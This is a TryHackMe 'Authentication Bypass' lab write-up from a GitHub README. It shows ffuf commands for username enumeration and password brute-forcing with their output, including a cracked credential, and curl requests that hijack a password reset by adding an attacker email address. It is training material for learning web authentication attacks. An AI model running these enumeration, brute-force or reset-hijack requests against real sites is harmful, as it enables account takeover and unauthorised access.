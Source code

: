 [TryHackMe | Authentication Bypass](https://tryhackme.com/room/authenticationbypass)

# TryHackMe-Authentication-Bypass
`Learn how to defeat logins and other authentication mechanisms to allow you access to unpermitted areas.`

## Task 1 Brief

## Task 2 Username Enumeration
http://machine_ip/customers/signup

```
root@ip-10-10-25-193:~# ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.50.205/customers/signup -mr "username already exists"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.50.205/customers/signup
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&email=x&password=x&cpassword=x
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: username already exists
________________________________________________

admin                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
robert                  [Status: 200, Size: 3720, Words: 992, Lines: 77]
simon                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
steve                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
:: Progress: [10164/10164] :: Job [1/1] :: 1503 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
root@ip-10-10-25-193:~# 
```

[ffuf/ffuf: Fast web fuzzer written in Go](https://github.com/ffuf/ffuf)

## Task 3 Brute Force
http://machine_ip/customers/login

```
root@ip-10-10-25-193:~# nano valid_usernames.txt
root@ip-10-10-25-193:~# ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.50.205/customers/login -fc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.50.205/customers/login
 :: Wordlist         : W1: valid_usernames.txt
 :: Wordlist         : W2: /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=W1&password=W2
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 200
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1]
    * W1: steve
    * W2: thunder

:: Progress: [400/400] :: Job [1/1] :: 229 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
root@ip-10-10-25-193:~# 
```

## Task 4 Logic Flaw
http://machine_ip/customers/reset

`curl 'http://10.10.217.236/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'`

`curl 'http://10.10.217.236/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'`

`curl 'http://10.10.217.236/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=r1skkam@customer.acmeitsupport.thm'`

[What is the flag from Robert's support ticket?](https://github.com/r1skkam/TryHackMe-Authentication-Bypass/blob/main/flag.png)

## Task 5 Cookie Tampering
[TryHackMe | HTTP in detail](https://tryhackme.com/room/httpindetail)

[CrackStation - Online Password Hash Cracking - MD5, SHA1, Linux, Rainbow Tables, etc.](https://crackstation.net/)
